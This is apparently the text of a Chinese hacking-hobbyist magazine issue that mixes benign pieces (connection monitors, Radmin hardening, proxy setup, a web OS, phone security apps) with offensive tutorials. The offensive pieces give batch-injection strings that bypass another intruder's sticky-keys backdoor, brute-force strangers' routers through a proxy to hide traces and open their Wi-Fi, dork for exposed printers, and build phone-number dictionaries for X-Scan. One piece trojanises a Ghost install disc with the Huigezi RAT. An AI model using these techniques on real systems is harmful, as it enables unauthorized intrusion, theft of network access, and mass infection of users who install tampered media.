CurrPorts是一款体积小巧的网络连接管理软件，在其主窗口中显示了当前所有的网络连接项目，包括进程名、进程ID、所用协议、本地端口、本机端口名、本机地址、远程主机端口、远程主机端口名、远程地址、远程主机名、连接状态、相关程序路径、开发者、程序名称和描述信息等，如图8。如果网络连接项目过多的话，可以按“Ctrl+F”键，在搜索栏中输入搜索内容（进程名、端口等），就可以快速找到所需的网络连接。CurrPorts提供了网络连接过滤功能，可以让我们专注于特定的网络连接。按F9键，在过滤窗口中输入过滤内容（例如“include:remote:tcp:80”，表示只显示远程端口为80的网络连接），点击OK按钮，就可以只显示符合条件的网络连接项目。按“F7”键可以禁用所有的过滤项目。对于可疑的网络连接，在其右键菜单中选择“Close Selected TCP Connections”（或者点击“Ctrl+T”键），就可以关闭选中的网络连接。如果选择“Kill Process Of Selected Ports”项，可以中止和目标连接关联的进程。


图8

## 四、使用TCPView关闭非法连接

TCPView同样是一款小巧实用的网络连接管理软件，在其主窗口中显示了当前所有的网络连接项目，包括相关的进程名称、进程ID、协议类型、本机地址和端口、远程地址和端口、连接状态等，如图9。如果目标网络连接状态发生改变的话，TCPView可以以红色高亮度将其显示出来。在工具栏上按下第三个按钮，可以隐藏所有的空连接项目。选中目标网络连接，在其右键菜单中选择“Whois”项，可以显示远程地址的详细解析信息。对于可疑的网络连接，在其右键菜单中选择“结束连接”，就可以立即关闭该网络连接项目。点击“关闭进程”项，可以中止相关进程的运行，达到拦截非法网络连接的目的。


图9

（文章中所用到的TCPEye、BeeThink IP Blocker、CurrPorts和TCPView已收录到光盘中）

# 傻瓜黑客


故事发生于一次很意外的入侵，我使用S扫描器狂扫开放3389端口的IP地址，等待了许久终于扫描到了一个。我感到很奇怪，因为扫描了这么多的IP地址，却只发现一个开放3389端口的，难道是被其他的Hacker入侵过了吗？先不管这个，我连接对方的3389端口一看，是XP系统。正是账号和密码都不知道，本来想使用X-Scan扫描一下它还存在什么漏洞的，但是我又心想，如果这个IP真的被人入侵过，那应该会留下一个后门吧。然后我就快速地按了5下Shift键，弹出了一个批处理窗口，果然不出我所料，当然也有一点意外，如图1，不过入侵者是位女黑客吗？怎么写着“公主驾到”？

后门是有一个了，但是还要输入正确密码才能进入cmd，不知道密码该怎么办呢？我第一时间就想到了社工，试着输入几个简单的密码和“公主”的拼音还是不行，如图2。我静下心来在脑海里寻找着突破的办法，突然一个思路在我脑海里闪过，就是像SQL注入中的万能登录密码一样，只不过不是进行登录，目的是让它报错显示出密码或是执行自己需要的命令，我把它称为“万能命令”。我先大胆猜测这个批处理验证密码是否正确，大致的过程是：


图1


图2

```bat
@Echo off
:pass
Set /p pass=Enter Password:
If "%pass%"=="007" (
  Cmd
) Else (
  Goto pass
)
```

其中“%pass%”就是上面Set /p命令设置的变量，在If命令中“%pass%”是用来与后面的“007”做对比的，一致的话就执行cmd命令，否则就返回到Pass标签。其实根据那个IP的后门来说，对比一致后执行命令也只不过是进入Cmd而已，至于对比不一致后执行的命令我们就不用管了，我们只需要思考如何才能使它对比一致，然后执行我们需要的命令，所以我先做几个试验。

先想像一下如果我们输入“"=”，那么If对比命令就将变成“If ""="="007"”，快速显示“此时不应有 "="="007"”然后就结束了。虽然报错时显示了密码，但是速度非常快地就结束了，如果是长一点的密码我们是看不清的。如果输入“"==" ”（最后有一个空格），If对比命令就变成了“If ""==" "=""007"”，显示“"="="007" 不是内部或外部命令，也不是可运行的程序”。由于空等于空，所以程序把后面的“"=""007"”执行了，由于它并不是什么命令所以程序报错。看见了吗？它报错时显示了密码，不但没有结束，而且还执行了下面一句的Cmd命令成功进入Cmd，如图3。


图3

有时候我们的运气可不是这么好，遇上了比较奇怪的密码判断方式的话，使用上面那条“"==" ”也照样会提示错误，但也是会速度很快地结束掉，那我们该怎么办呢？发散一下思维，当我们输入“"=="”的时候，If命令就变成“If ""=="" "=""007"”，我们把后面会报错的“"=""007"”去掉不管，剩下的就是“If ""=="" ”，对不对？聪明的你想到了什么？

对了，就是在“"==" ”的基础上加以修改，用冒号“:”像注释符一样忽略掉后面会报错的东西，接着在冒号前面加上需要执行的命令，例如“Start cmd”，整个过程修改后这个万能命令就变成了“"==" Start cmd :"”，输入后If命令就变成了“If ""=="" Start cmd :"=""007"”，由于空等于空，所以程序把“Start cmd”执行，冒号后面的命令都会被忽略，拿去验证一下果然弹出了另外一个cmd窗口。

如果验证密码是否正确，其大致的过程是：

```bat
@Echo off
:pass
Set /p pass=Enter Password:
If "007"=="%pass%" (
  Cmd
) Else (
  Goto pass
)
```

注意这里If命令的判断方式是密码“007”在前面的，看起来这个如果要突破的话也许有点困难；因为双等号在变量%pass%的后面，其实并不困难的，而且思路很明确。想像一下，如果我们输入“" ”（后面有一个空格），If命令就变成了“If "007"==" ""”，由于007不等于空，后面的“""”没有执行，而且“""”还让程序出错，直接执行了下面一句的Cmd命令。我们再加深一下思路，如果我们输入“" (Echo 007) Else (Start cmd)&& Rem.”会是什么结果呢？很简单，当然是执行Else后面的“Start cmd”了。

试验做完了，我得出的结论是：如果一个批处理的密码验证方式没有对特殊字符做任何过滤（例如过滤双引号“"”、冒号“:”），那我们还是有办法突破的。在If命令判断密码是否正确时，密码在后变量在前（If "%pass%"=="007"）的情况下万能命令是“"==" Start cmd :"”；密码在前变量在后（If "007"=="%pass%"）的情况下万能命令是“" (Echo 007) Else (Start cmd)&& Rem.”。

# 傻瓜黑客

（Start cmd）&& Rcmd :?。

我重新登录到那台电脑上，然后快速地按 5 下 Shift 键，在弹出的批处理里试着输入“"==" Start cmd :?”，回车后很幸运地弹出了一个 cmd 窗口（事实证明我的猜想是正确的），原来的批处理也没有被结束而且还进入到命令状态……本来还想教大家如何编写一个密码验证方式很安全的批处理后门的，但是为了不浪费版面我就打包了一个由我编写的批处理后门，希望大家喜欢，这个后门的密码验证方式是很安全的（默认密码：007），至此文章也该结束了，最后我希望读者们要学会举一反三。

（文中所用到的 007 Private Set… Back Door 已收录到光盘中）


# 看小菜对路由器的暴力破解

大兵

目前很多家庭中都有无线路由器，这样就给一些人提供了免费蹭网的机会。通常情况下很多人都是通过无线网卡接收到无线信号后再使用 BT3 软件来进行破解。那么今天我就要告诉大家另外一个方法，就是通过破解路由器的登录账号来获得无线路由账号。

也可以直接调用这些软件中的字典文件。

## 一、准备工作

首先我说一下我的基本思路，现在有很多用户的家里都有无线路由器，但是他们却还是使用 ADSL 进行的上网，这时我们就可以通过破解路由器的账号密码，开启并设置无线上网的确认密码就可以了。这里最关键的就是如何获取 IP 地址了，大家可以先获取自己的 IP 地址，然后对 IP 地址所在的 C 段进行扫描，当然这是需要一些运气才可以的。

既然是暴力破解那么肯定就会用到字典文件，我们可以通过搜索引擎查找主流的路由器在出厂时默认设置的登录账号和密码等信息，然后把这些信息复制到文本文件中，再分别保存为登录账号和密码信息两个文件，如图 1。当然如果用户的电脑中安装有其它的破解软件，那么也可以直接调用这些软件中的字典文件。


## 二、破解操作

我们从网上下载针对路由器账号的破解工具 WebCrack，由于这是一款绿色软件，所以下载后直接就可以运行了。字典文件准备完毕后，选择破解软件中的“文件位置”，点击“用户名文件”后面的按钮，在弹出的窗口中选择保存的用户名文件，接着再点击“使用用户名字典”后面的按钮，在弹出的窗口中选择保存有密码信息的文件，如图 2。


在“URL”栏中输入远程路由器的 IP 地址，对于这个 IP 地址可以通过大范围地搜索 80 端口获得。接下来选择破解工具下方的“选项”标签，在“用户名转换”和“密码转换”列表中，可以选择使用默认信息、转换成大写字母或者转换成小写字母，如图 3，同时还可以将“尝试用户名为密码”的选项选中。

最后再选择下方的“Advanced”标签，可以选中“通过代理服务器连接”，然后就可以在 HTTP 代理、用户名和密码处设置代理服务器的信息了，如图 4。这样别人即使是追查下来，也很难发现我们破解的踪迹，当然普通用户是完全没有必要设置这个选项的。

## 三、修改密码

所有的配置完成后，点击工具栏中的“开始”按钮，这时就会弹出一个提示窗口，询问用户是否保存破解信息，直接点击窗口中的 Yes 按钮，来设置一个信息文件的名称，这时破解工具就会自动进行破解了，我们在“Progress”标签中可以看到破解的进度，当成功破解路由器密码后，就会听到一个提示声并且在“发现密码”标签中显示出来，如图 5。


图3


图5


图4

现在打开 IE 浏览器，输入路由器的 IP 地址，接着按照提示输入破解出来的路由器账号和密码，就可以成功进入到路由器的配置界面了。首先点击操作界面中的“首页”标签，接着点击左侧工具栏中的“无线网络”，将“无线端”中的“激活”选中，最后点击“安全方式”列表中的“无”，这样就可以蹭网且不容易被用户发现了，如图 6。


图6

（文章中所用到的 WebCrack 4.0 已收录到光盘中）

# 打印机也可以被黑？

木头

近日在论坛发现：朋友发了一个网址，打开一看居然是一台 HP 网络打印机的设置页面，如图 1。这里我先说一下什么是网络打印机。

> 小常识：  
> 网络打印机就是指通过打印服务器（内置或者外置）将打印机作为独立的设备接入局域网或者 Internet，从而使打印机摆脱一直以来作为电脑外设的附属地位，使之成为网络中的独立成员，成为一个可与其并驾齐驱的网络节点和信息管理与输出终端，其他成员可以直接访问使用该打印机。

由于该打印机属于网络打印机，其拥有一个公网 IP 以及终端管理，所以也就暴露出了不安全的隐患。我先来教大家如何使用 Google 抓取这样的网络打印机，打开 Google，点击下面的“Google.com in English”，如图 2，使用 Google 英文搜索引擎，然后在搜索框中输入“this.LCDispatcher”就可以搜索出上千台网络打印机了，其中大部分的网络打印机都没有设置访问密码，所以只要直接点击搜索出来的链接就可以直接进入网络打印机的后台管理页面了。


图1


图2


图3

在打印机管理页面我们可以查询和更改一些基本信息，比如设备信息、打印机安装和使用时间、打印日志，最有趣的就是查看激光屏显示文字了，如图 3，可以实时地了解到对方正在打印什么东西以及使用该打印机打印的文件等。

好了，最后让我们了解一下网络打印机的实体样子吧，利用上面搜索引擎搜索出来的网络打印机大多为 HP 系列的 3xxx-5xxx 系列，实体样子如图 4 所示。


图4


小菜与大鸟在入侵过程中的区别在于：前者是漫天撒网摸鱼式，逮着谁就是谁；而后者则是接受了唯一的一个目标点（比如某个具体的网站 IP），通过 N 种途径和各种不同的方法进行试探，直到攻下。

以前在 LAN（局域网）中，由于用户的安全意识普遍较薄弱，空口令和 123456 这类的弱口令几乎比比皆是，因此使用扫描器从 LAN 的起始 IP 扫至尾端 IP，结果总是收获颇丰……

要说这扫描器的原理其实并不复杂，不就是用自身集成的一些密码字典逐一对猜测到的账户进行“对号入座”式的暴破吗？既然扫描无果，那么最大的可能就是这些字典中所存的经典弱口令不包含账户所使用的新口令，看来需要升级字典文件了。

我又进一步想到了前辈们的档案曾不止一次地闲侃：一些使用“社工”（社会工程学）的技巧来攻城夺寨的文章，忽然灵光一现……如果真是这样的话，我岂不可以如此这般……

## 一、使用“真空密码字典生成器”制作密码字典

如果刚才的思路正确的话，那我们就可以从小菜菜变身为大鸟了——对定点 IP 进行入侵！这第一步当然就是制作一个包含本校所有员工电话号码在内的密码字典了，然后挂接到扫描器上作为自定义密码字典来进行暴破式扫描，不就 OK 了吗？但是我总不能一个一个地对照职工信息表手工输入这 N 多的电话号码吧！这可难不倒我，请出个黑客密码字典生成工具就行了，选择比较多，我根据自己的实际情况选用了“真空密码字典生成器 2.5.exe”。

双击运行程序后，在主界面中先选择“电话密码”，选择“固定电话”格式，再根据情况在“设置电话号码”处将“区号”和“电话号码”分别进行如下设置：区号都是一样的“0535-”，电话号码的前三位也是一样的“818”，后五位全部选择设置为“*”号，意思就是代表 0-9 共十种组合。如果你所在的 LAN 内用户的电话号码不足八位的话，还可以在此将最后的某几位设置成“x”号表示空白。设置完成后就可以单击右下方的“开始制作字典”按钮，如图 1，真空密码字典生成器紧接着就会提示我们“预计生成数据 100000 条，预计占用空间 1.43MB，请确认您的磁盘是否有足够的空间，是否继续？”，单击“是”继续，再按照提示选择将要保存数据的文件（可自行命名，是一个可以使用 Windows 的记事本直接打开的纯文本文件），接着花不了几秒钟的时间我们就得到了为自己量身定制的密码字典文件。


图1

## 二、将密码字典文件挂接到扫描器上

如果将密码字典文件比作是弹药的话，那么扫描器无疑就是发挥其威力的枪支了。在此我选择了自己最喜欢的 X-Scan 3.3，解压后先不要忙着运行程序，因为我们最应该做的是先将自己的字典文件与它挂接，打开 X-Scan 目录下的 dat 文件夹，看到了吗，其中有很多记事本图标的纯文本文件，通过它们的名称我们就大致能看出来作用。经过若干次的试验，我找到了 X-Scan 默认的扫描 Windows 登录用户的字典文件“weak_pass.dic”，注意其后缀是 .dic（英文单词 Dictionary 的首字母缩写，“字典”的意思）。


图2

打开“我的电脑”，依次选择“工具”－“文件夹选项”－“查看”，取消“隐藏已知文件类型的扩展名”，这样才能看到这些文件的扩展名不是 .txt（虽然表面上看二者是完全相同的）。把这个“weak_pass.dic”先剪切到别的文件夹备份，然后再把自己在第一步中生成的密码字典文件（注意其扩展名是 .txt 而不是 .dic）复制过来，并重新命名为“weak_pass.dic”，也就是用狸猫换太子之计骗过 X-Scan 在扫描时调用我们自定义的密码字典文件。

接下来就简单了：双击运行 X-Scan，单击最左上角的“扫描参数”紫色圆形按钮，在其中的“检测范围”的“指定 IP 范围”处只填写一个目标 IP 地址（比如 10.10.10.2）——这回终于有点定点攻击的感觉了。然后在“全局设置”的“扫描模块”中只选择“NT-Server 弱口令”这一项，因为我们的目标就是 Windows 的登录账户，为防止拖慢扫描速度，其它的就舍弃了，如图 2。点击“确定”按钮后返回到 X-Scan 的主界面，再单击左上方第二个绿色的三角形“开始扫描”按钮，现在就等着好戏吧。

随着 X-Scan 左下角的“雷达”不停地扫描，右下方就会显示“正在检测 NT-Server 弱口令：administrator/0535-81800365”之类的滚动信息，也就是 X-Scan 正在使用我们的密码字典逐个地对目标 IP 登录账户进行刺探。如果所料不错的话，付出终会有回报的。呵呵，204 秒，跑出来了，用户名是 Windows 默认的超级用户“Administrator”，密码是“0535-81800991”，如图 3，呵呵，成功了！

## 三、简单小结

造成这样的后果，除了是用户设置了自认为不弱的弱口令外，使用 Windows 的“账户锁定阈值”其实就可以非常有效地防止这种定点入侵。我们打开“控制面板”－“管理工具”－“本地安全策略”，在弹出的“本地安全设置”窗口中双击左侧窗口中的“安全设置”－“账户策略”－“账户锁定策略”项，这时在右侧窗口中有一项“账户锁定阈值”，双击它，在弹出的“账户锁定阈值属性”窗口中的“本地安全设置”选项中可以清楚地显示：“账户不锁定。0 次无效登录”，如图 4，意思就是用户可以在登录时进行无限次的用户名与口令的组合，直到有一项有效就可以成功登录操作系统了，这也是 Windows XP 所默认的状态。如果我们把这儿的“0”更改为其它的数字（比如“3”）的话，意思就是限定用户的登录次数——且超过了这个设置的次数，Windows 就会阻止用户继续试验下去。一般情况下，我们将这个数字设置为“3”就不少了，这样一来，扫描类软件就只能最多进行三次用户名与口令的组合试验，未成功的话也不会再继续下去了，即使密码字典中含有配套的正确口令也无济于事，因为扫描根本就进行不下去了。


图4


图3

呵呵，这样一来，我们岂不是又要从大鸟一跤跌回到菜菜了？别灰心，其实我们经过了这几步的实战，已经成长了不少，比如用到的“社工”，还有在制作密码字典中的技巧以及对扫描器的研究……重要的是一步一步地成长而不是名分，你说呢？将来也许有一天，你就会不知不觉地成长为大鸟却仍在展翅高飞……

> （文章中所用到的真空密码字典生成器、X-Scan 3.3 中文版已收录到光盘中）

# 在系统安装盘中留下后门

老鹰X

记得以前曾在论坛上看到过一篇帖子，说是让大家小心 GHOST 安装盘中的后门，为此我也特地研究了一下，发现要想在系统安装盘中留下后门并非难事。经过处理的系统盘，只要该系统被安装，就能马上逮到一只肉鸡，而且上线率是百分之一百，因为刚安装好的系统没有任何杀毒软件，接下来我就为大家详细介绍一种留后门的方法。

用到的材料有：雨林木风 GhostXP SP3.iso 和灰鸽子木马。

## 第一步：准备工具和材料

这次我们用到的工具有：UltraISO（ISO 文件编辑工具）、Ghost Explorer（Ghost 文件浏览工具）和 Ashampoo Burning Studio（ISO 镜像刻录工具）；


图1

## 第二步：添加后门

- 1. 运行 UltraISO 工具，并打开系统镜像。然后在镜像中的 system 目录下找到后缀名为 GHO 的文件，选中后点击右键选择提取，如图 1，将 GHO 文件提取到 UltraISO 的安装目录下。
- 2. 运行 GHOSTEXP 工具，打开刚才提取出来的 GHO 文件，来到“NTFS/Documents and Settings/All Users/开始菜单/程序/启动”目录下，将准备好的远控服务端程序拖入其中，如图 2。
- 3. 关闭 GHOSTEXP 工具，返回到 UltraISO 工具界面，如图 3 所示，使用修改后的 GHO 文件替换源文件。
- 4. 此时需注意 ISO 文件的大小，如图 4，一般 CD 刻录盘为 703M，因此 ISO 文件不能超过 703M，若超过了，只能将木马加个压缩壳或找个小点的木马，然后再重复步骤 2 到步骤 3。
- 5. 打开 UltraISO 工具菜单上的“文件”，选择“保存”或“另存为”，保存修改的 ISO 文件。至此，添加后门工作就完成了，有时间的话，我们还可以使用虚拟机来测试一下效果怎么样。


图2


图3

## 第三步：刻录成光盘

运行 Ashampoo Burning Studio 工具，选择“从光盘镜像刻录 CD/DVD/BLU-RAY 光盘”，如图 5，随后选择刚才修改过的 ISO 镜像，并根据提示完成光盘刻录工作。


图4


图5

好了，一张我们埋下了后门的系统安装盘就制作完毕了，怎么用就看大家了，呵呵。（文章中所用到的 UltraISO、Ghost Explorer、灰鸽子木马已收录到光盘中）

## 为 Remote Administrator 巧加时间锁

花的神明

在众多的远程控制软件中，Remote Administrator 可谓是鼎鼎大名，在实际的网络管理中应用得非常广泛，因此它也成了入侵者攻击的重点目标。因为在默认情况下，Remote Administrator 没有设置连接密码，任何人都可以连接到远程主机。即使设置了密码，如果密码设置得过于简单的话，也很容易被猜解出来。更何况现在出现了很火的 Radmin 破解提权技术，入侵者只要向服务器上传个 ASP 木马，就可以直接读取注册表中的“HKEY_LOCAL_MACHINE\SYSTEM\RAdminv2.0\Server\Parameters”项，将其中“Parameter”保存的加密散列提取出来，然后将其转换成十六进制数值，再使用经过修改的 Radmin 客户端就可以连接远程主机了。

面对 Remote Administrator 的安全威胁，除了设置复杂的密码外，最好的办法就是在指定的时间内开启 Remote Administrator，这样可以大大降低入侵的可能性。使用 Schedule Start Stop（简称 SSS）和 Service Protector 这两款独特的软件，就可以为 Remote Administrator 加上时间锁。

首先创建名称为“Rastart.bat”的文件，其内容为“C:\WINDOWS\system32\r_server.exe /start”。在 SSS 主窗口左侧点击“Add task”按钮，在操作向导窗口中选择“I want to start a program”项，如图 1，点击下一步后，选择“The program is not running”，然后选择上述的“Rastart.bat”程序，如图 2，再点击下一步后，输入任务的名称，点击完成按钮，在计划任务管理窗口中的“计划任务”列表中选择具体的周期，包括了每天、每周、每月、一次性、在系统启动时、登录时、空闲时等，这里我选择了“每天”，在“开始时间”栏中输入启动时间，点击“确定”按钮保存就可以创建本计划任务了，如图 3。

对应地，在 SSS 主窗口左侧点击“Add Task”按钮，在弹出的窗口中点击“I want to stop a program”，表示在指定的时间关闭目标程序。点击下一步后，选择“The program is not running”，选择“C:\Windows\system32”文件夹下的“r_server.exe”文件，然后按照上述方法设置当前计划任务的结束时间即可。这样当达到预设的时间后，就可以启动或者关闭 Remote Administrator 了。

我们知道，Remote Administrator 安装后会在系统中创建名称为“Remote Administrator Service”的服务，当该服务启动时，就可以激活 Remote Administrator 远程控制功能；当该服务关闭时，就无法使用 Remote Administrator 远程控制功能了。因此，对该服务进行定时激活或者关停操作，就可以灵活地控制 Remote Administrator 的运行状态。

在 Service Protector 主窗口中点击“Ctrl+A”，在弹出的窗口中选择“General”，如图 4，在“Service to”列表中显示了本机所有的系统服务项目，其中带有绿色标记的为处于活动状态的服务。从中我们选择“Remote Administrator Service”项，勾选“When the service stops, restart it”，在其下选择“Not immediately, but”，表示当检测到该服务处于未运行状态时，暂时不对其执行激活操作。选择“At X”项，在其中设置激活的精确时间（例如“21:00”等），这样当到达预设的时间后，就可以立即激活 Remote Administrator Service 服务，这样 Remote Administrator 就处于可用状态了。

对应地，在“Monitor”选项的“Monitor the service and stop it”栏中勾选“Every X at Y”，设置关闭 Remote Administrator Service 服务的时间，其中的 X 代表在列表中选择具体的日期，包括每天（默认）或者具体的星期数等，在 Y 代表的时间栏中设置精确的时间（例如 23:00 等）即可，如图 5。这样，当每天到达预设的时间后，就可以自动关闭 Remote Administrator Service 服务了，最后我们就可以点击“Save”按钮保存配置信息了。

在“Email”选项的“Send an email”栏中输入目标邮箱地址，


图2


图3


图4


图5

点击“Configure”，在邮箱配置窗口中输入发件人的邮箱地址、发件人名称、SMTP服务器地址以及认证信息。勾选“Whenever the service stop/has to be restart”，表示当 Remote Administrator Service 服务异常终止或者重启后，可以向目标邮箱发送报警邮件。这样，如果有人在预设时间外非法执行了目标服务的启动或者停止操作，我们就可以及时得到报警信息。在 Service Protector 主窗口中显示了上述监控项，在该监控项的右键菜单中选择“Protected Service”→“Start”项，激活该监控项。……

> （文章中所用到的 Schedule Start Stop 和 Service Protector 已收录到光盘中）

# 让翻墙更加智能

## ——谈翻墙

光午休


在看了上期杂志中的“Google 提供的免费翻墙软件 GApp-Proxy”一文后，我试着用了下这个代理，感觉很快很不错，看 Youtube 很流畅，用 Facebook 也很爽，但是如果看 QQ 空间，有时就很慢或者很不稳定了，如图1，访问其它一些国内网站也有这个问题。于是我就想，有没有办法让浏览器自己判断，需要翻墙的时候就翻，不需要的时候就不翻呢？稍微尝试后，我找到了方法，特与大家分享（使用自由门、Puff 等代理也是一样的）。


### 1、Maxthon、IE 等浏览器

使用这种浏览器的人非常多，但很遗憾，这种老式的浏览器似乎没有相关插件来完成我想做的事情，如果要在代理服务器/自己 IP 之间切换，似乎只能通过修改 Internet 选项中的 LAN 设置来完成了，如图2。

按照图2所示的那样，选择那三个选项，然后填写上代理服务器的地址以及端口号，不同的代理服务器的地址和端口是不同的，在不需要使用代理的时候就把那三个选项取消掉，这样完全是手工切换，非常麻烦。


### 2、Firefox 浏览器

这是我最喜欢的浏览器，使用它的 AutoProxy 扩展就能达到自动切换代理服务器的目的：建议先下载安装最新版的火狐“http://www.mozillaonline.com/”，然后输入“https://addons.mozilla.org/zh-CN/firefox/addon/11009”安装火狐的 AutoProxy 扩展，如图3。


安装后订阅被传说中的 GFW 屏蔽掉的网站列表，如图4，然后设置默认代理服务器，如图5，最后在火狐右下角单击那个“福”字，设置成自动模式，如图6，就可以做到需翻墙时自动翻墙，访问不受限制的网站就不翻墙了。特别要提醒大家的是：此时，我们必须确保自己的 GAppProxy 或者自由门、Puff 等正常工作哦（也就是开启它们的客户端，比如 GAppProxy 就是 GAppProxy 的 GUI.EXE，然后确认运行，这一部分内容可以参考上期的文章），否则不会自动代理的。如图7所示，我在访问 Youtube 的时候自动调用了2条活跃规则，代理了20个项目。

### 3、Chrome 浏览器

这同样是一个非常好的新型浏览器，我曾经有段时间一直在用它，但它的安全性太“好”了，连支付宝的插件都无法运行，最终被迫舍弃。在 Chrome 中，可以通过安装“Proxy Switcher!”插件来实现自动翻墙，如图8。插件的下载地址为：“http://chrome.google.com/extensions/detail/caehdcpeofiiigpdhbabniblemipncjj”。

GWF 封禁网站列表的文件网页：“http://autoproxy-gfwlist.googlecode.com/svn/trunk/gfwlist.txt”，勾选“AutoProxy Compatible list”来确保自动判断，最后 Save 一下。这样在地址栏旁边就会出现一个灰色地球，点击后就会弹出菜单，选择“Auto Switch Mode”，如图11，便实现了自动判断是否需要翻墙并按需翻墙。


在“Profile Name”中输入“[GApp-Proxy]”（任意的），然后选择“Manual Configuration”，在“HTTP Proxy”中填写“127.0.0.1:8000”（GAppProxy 是这样的，别的代理服务器有不同，参看附表），如图9，点击 Save 按钮，然后再选择上方的“Switch Rules”选项。


大家按照图10那样来填写，勾选“Online rule list”，然后在“Rule List URL”中填上。

上述的方法利用了 WINE，也可以在 Linux 下实现，由于和本文无关，就不再展开叙述了。翻墙者，大略如行云流水。初无定质，但常翻于所当翻，常止于所不可不止。希望这篇简单的文章能帮助大家更好地翻墙，更好地利用互联网。

（文章中所用到的附表——常见代理的 IP 及端口.txt 已收录到光盘中）

## 新奇好玩的 Yuan OS

如果有一个新奇好玩的新一代计算机操作系统，你会不会感兴趣呢？如果大家感兴趣，那么就来试用一下 Yuan OS 吧。

Yuan OS 的中文名字就叫源操作系统，它是基于云计算和云存储理论构建在互联网平台上的新一代计算机操作系统，是不依赖于某种特定的本地操作系统而独立运行在浏览器上、用来代替本地系统和应用软件、解决数据管理计算的平台。用户可跨平台、跨本地操作系统，通过浏览器登录到 Yuan OS。

在本地操作系统仅支持一个浏览器的情况下，不管用户使用任何本地操作系统，都可以正常运行 Yuan OS。或者说，不需要硬件相关部分，Yuan OS 可以运行在任何支持浏览器的情况下，因为浏览器就是它的运行环境。Yuan OS 提供了各种模拟本地操作系统的操作界面，注重用户体验。


如果我们也想来使用一下，需要先到 http://www.yuanos.com/sign.html 注册一个用户，注册时只需要一个邮箱和设置一个登录密码就行了，如图2。由于要发送激活邮件到你注册时填写的邮箱中，因此邮箱地址不能乱写，要填写自己真实的邮箱。

勾选“我已经阅读并且同意服务条款”选项后点击“提交注册信息”，然后就会提示“激活：激活邮件已发送到你的邮箱，请点击邮件中的激活链接来完成注册。”打开我们的邮箱，点击激活邮件中的激活链接就完成了用户的注册。


要想使用 Yuan OS，在注册用户后还需要来申请主机，这就相当于申请一台属于你自己的虚拟电脑。我们打开 http://www.yuanos.com/hosts.html 就来到了申请主机的地方，如图3。


“登录信息”就填写你刚才申请用户时的邮箱和密码，给你申请的主机设置一个主机名，你的主机会通过主机名来进行登录。比如你的主机名是 hackerxfiles，那么你主机的登录地址就将是 http://os.yuanos.com/hackerxfiles。下面需要填写你的个人信息。


所有的信息都填写好后点击“提交申请”按钮，就会提示你要经过人工审核后主机才能开通。很快就会收到审核通过的邮件，在邮件中也显示了你申请的主机的登录地址，如图4。直接点击邮件中的主机地址的超级链接就来到了如图5所示的登录页面。

“Your mail”后面填写你申请时的邮箱，“Password”后面填写你注册的密码，Yuan OS 提供了几种登录模式（Start Mode），分别是快速启动模式、调试模式和安全模式，这里我们保持默认的，直接点“登录”后就来到了选择用户的界面，如图6。


Yuan OS 提供了多个登录用的用户，有 administrator、group、guest 和 users，这有点儿像 Windows 操作系统中的用户，呵呵。Yuan OS 中的用户也对应了不同的权限，其中 administrator 的权限最大，我们就用 administrator 吧，至于其它用户的权限以及作用，就由大家自己去发现了。单击一下 administrator 用户后就会以 administrator 用户进行登录，经过短暂的加载后就来到了如图1所示那个桌面，这个桌面是 apple 风格的，非常漂亮。桌面上方、下方显示的是功能菜单，菜单是带有动画效果的，鼠标移动到一个菜单上该菜单会自动变大。

下面我们来看一下 Yuan OS 的功能，先来介绍桌面上方的功能菜单，从左面数第一个是控制台菜单，在控制台里可以对 Yuan OS 进行各种设置，比如选择安装的应用程序和设置桌面风格等，如图7。


第3个菜单是计算器，提供了一个简易的计算器。图标中带一个五角星的是在线书签菜单，可以把你浏览器中的书签导入到 Yuan OS 的在线书签中，这样不管你用哪台电脑上网，只要登录到你的 Yuan OS 就可以使用你自己的书签了，如图8。还有 MP3 播放器、钟表等菜单，功能都很直观，这里就不介绍了。


再来看一下 Yuan OS 的资源管理器，点击 Yuan OS 桌面上方的资源管理器，打开后如图9所示，可以管理 Yuan OS 中的文件，比如对文件进行新建、删除、重命名等操作。在这里我们可以把自己电脑中的文件上传到 Yuan OS 中，右键选择“上传文件”，在出来的上传对话框中选择要上传的文件后就可以上传到 Yuan OS 中了，当然我们也可以把存储在 Yuan OS 中的文件下载到你的电脑中。

Yuan OS 有在线办公软件，zohoword 就是一个简单的文字处理软件，点击桌面下方的 excel 菜单就可以新建或编辑 excel 文件了，如图10。如果你想编辑图片的话，可以使用“在线 photoshop”，如图11。

另外 Yuan OS 还有地图浏览、图片查看、在线翻译、实用号码查询、在线电台、PDF 阅读器、MSN 聊天等更多功能，点击桌面上的相应图标就可以打开它们了。Yuan OS 作为采用云计算和云存储的 webos，界面漂亮，功能多，有兴趣的朋友不妨试用一下。

# 让“吸费软件”无处遁形

痴并快乐着


这天打开了自己上个月的手机清单，发现又稀里糊涂地被扣了好多钱，而且有一个短信号码非常的奇怪……其实这种情况基本上都是由“吸费软件”所造成的，那么怎样才能找出手机系统中的吸费软件呢？今天我就给大家推荐两款手机系统的安全卫士软件。

## 一、金小蜂安全卫士

### 1、软件初次感受


首先我们从“金小蜂安全卫士”的网站（www.ixphone.com）下载这款手机安全软件的最新版本……运行软件后会要求连接服务器进行更新，如图1。

软件更新完成后，就可以看到软件的操作界面，界面非常简单，而且字体也比较大……“金小蜂安全卫士”软件针对不同的用户，分成了“向导模式”和“高级模式”两种操作方式。


### 2、手机系统加速

点击界面中的“系统加速”，通过它可以关闭不需要的手机软件，同时清理手机空间中的垃圾信息，如图3。按照提示按下手机左侧的功能键，软件会开始分析正在运行的软件。

按下手机键盘中的确认键，在弹出的菜单中选择“关闭此软件”，如图4。接着按下手机键盘的右功能键，进行已安装软件分析，并进行垃圾清理操作，如图5。

- 小提示：无论是关闭软件还是卸载软件，在通过手机键盘进行软件选中后，直接按下手机键盘中的 C 键即可执行对应操作。

### 3、系统安全检测

如果说手机加速是让系统轻装前行，那么系统安全检测则用于发现和清除可疑软件风险。如果说手机加速是让系统轻装前行，那么“安全检查”则可以让手机“药到病除”。选择主界面中的“安全检查”，同样按下手机键盘的左功能键就开始检查了，首先软件进行的是漏洞检测，如图7。就当我非常疑惑手机也可能存在漏洞时，突然想到了诺基亚手机确实曾经出现过一个和山寨手机非常类似的短信漏洞，还好我的手机系统并没有这个安全漏洞。


接下来软件就会对系统的风险软件进行扫描，因为手机话费被扣的问题可能就出在这儿。经过软件对安装软件、软件安装包以及手机短信附件的扫描，“金小蜂安全卫士”并没有发现任何的风险软件。这一点实在是令我大感意外，就在我非常疑惑地进行下面的分析时，软件提示我发现了两条可疑的短信扣费记录，如图8。我心想狐狸尾巴终于露出来了吧，但是经过自己的认真对比后发现，这个号码只不过是自己发微博的短信号码而已。

